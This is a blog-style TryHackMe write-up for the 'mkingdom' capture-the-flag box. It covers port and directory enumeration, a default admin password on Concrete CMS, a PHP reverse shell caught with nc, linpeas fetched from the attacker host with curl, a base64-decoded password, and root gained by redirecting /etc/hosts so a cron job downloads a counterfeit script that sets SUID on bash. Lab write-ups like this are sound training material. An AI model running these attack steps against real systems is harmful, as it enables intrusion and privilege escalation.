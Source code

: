 ```yaml
---
layout: post
title:  "TryHackMe: mkingdom"
description: Beginner-friendly box inspired by a certain mustache man.
date:   2024-09-23 11:43:59 +0100
categories: jekyll update
---
```


# mkingdom :
```sh
export IP= M-ip
```
# Enumeration:

I found the Port 85 referring to HTTP instead of 80.

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
Scanning 10.10.198.213 [4 ports]
Nmap scan report for 10.10.198.213
Host is up, received echo-reply ttl 63 (0.092s latency).
Scanned at 2024-09-20 18:42:40 EDT for 13s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

NSE: Script Post-scanning.
Completed NSE at 18:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
```
 
# Directory bruteforcing:

I found his /app directory that contain the web app with the concrete cms 8.5.2, this version has a CVE-2020-11476.

```sh
gobuster dir --url http://10.10.198.213:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```sh
/app                  (Status: 301) [Size: 314] [--> http://10.10.198.213:85/app/]
```

![Screenshot_1](https://github.com/user-attachments/assets/4f368621-4827-4a50-977b-623e5a3b9cf6)

I checked the Blog to see if i can find some users .

![Screenshot_2](https://github.com/user-attachments/assets/2604c4b7-bae8-429e-bc76-78ef13368784)

I found this user 

![Screenshot_3](https://github.com/user-attachments/assets/3bd15567-9cb4-4f04-8508-c8d179095415)

I attempted some default passwords for the 'admin' user, and it turns out the password is simply 'password'.

![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)

As previously mentioned, Concrete CMS version 8.5.2 has a vulnerability that allowed me to add an extension, enabling the upload of PHP file types to the machine.

![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)

I successfully uploaded a PHP reverse shell to the target machine and obtained the IP address needed to execute it.

![Screenshot_6](https://github.com/user-attachments/assets/fa29c9fc-e852-459c-bfe7-f8a408e90060)
![Screenshot_7](https://github.com/user-attachments/assets/17ba45cc-0a26-431f-9ddf-8b394456760c)

# Initial access :
```sh
 nc -lvnp 9999   
```                       
```sh
listening on [any] 9999 ...
connect to [10.9.0.17] from (UNKNOWN) [10.10.198.213] 55916
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:05:35 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
I used linpeas to enumerate the machine 

```sh
Attacker Machine
python3 -m http.server 80
Victim Machine
curl http://attackerIP/linpeas.sh -o linpeas.sh 
./linpeas.sh
```
While inspecting the application configuration for Concrete CMS version 8.5.2, I discovered the password for the user 'toad' stored in the configuration file.

![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)

After extensive enumeration, I discovered that the password for the user 'mario' is stored within the environment variables.

![Screenshot_12](https://github.com/user-attachments/assets/265fc5aa-47c5-4814-ab52-d1be3675cd12)

```sh
echo 'aWthVGVOVEFOdEVTCg==' |base64 -d                         
ikaTeNTANtES   => mario password
```
I used pspy to snoop on processes without need for root permissions, by doing this i got this running crons.

![Screenshot_13](https://github.com/user-attachments/assets/45810ebc-b52a-485e-ae94-cfbf8bb7b56e)

/bin/cat has SUID permissions, meaning it can be executed with the privileges of the file owner (likely root).
/etc/hosts is owned by the user mario
![Screenshot_14](https://github.com/user-attachments/assets/d8fc746c-8ac9-4db3-b6aa-8ccd89de4b98)
![Screenshot_15](https://github.com/user-attachments/assets/296423a4-e5f0-4bfa-8996-4d0855d6766b)

I replaced the localhost ip with our vpn ip to use it further.

```sh
awk '{gsub("127.0.1.1\tmkingdom.thm", "AttackerIP\t\tmkingdom.thm"); print}' /etc/hosts > /tmp/replace_hosts
```
I then utilized the SUID-enabled /bin/cat to write the contents of /tmp/replace_hosts to /etc/hosts, resulting in the file being modified to look like this:

```sh
mario@mkingdom:~$ cat /tmp/replace_hosts  > /etc/hosts
mario@mkingdom:~$ cat /etc/hosts
127.0.0.1	localhost
AttackerIP		mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnod
```

Since counter.sh is executed automatically via cron, we could manipulate it to run commands of our choice.

With write access to /etc/hosts, we can modify entries to redirect network requests or disrupt normal hostname resolution.

The /etc/cat file, with SUID permissions, allows us to execute it as the file owner (likely root), which can be exploited to read or manipulate sensitive files.

1. Create a counterfeit directory on the attacker machine:
We will replicate the directory structure where counter.sh is located on the victim machine inside the /tmp directory on our attacker machine. This will allow us to host our counterfeit version of counter.sh.
```sh
mkdir -p /tmp/app/castle/application
vim /tmp/app/castle/application/counter.sh
```

```sh

#! /usr/bin/env bash

chmod 4755 /bin/bash
```

2. Host a fake script using Python's HTTP server:
Using Python’s http.server, we can set up a simple web server on the same port that the victim machine is likely to connect to. This will trick the victim into downloading our malicious script instead of the original one.

```sh
sudo python3 -m http.server 85 --direcotry /tmp
```

3. Replace the real counter.sh on the victim machine:
By getting the cron job to download our counterfeit script from our attack machine, we can replace the original counter.sh with our own, gaining control over what commands it executes when the cron job runs.

![Screenshot_16](https://github.com/user-attachments/assets/c2d228f2-4497-4e77-b84e-a5839a271836)

Gaining root access 

![Screenshot_17](https://github.com/user-attachments/assets/b7c08f9e-2f85-4f16-b9a1-ac1bf4ba3a3c)
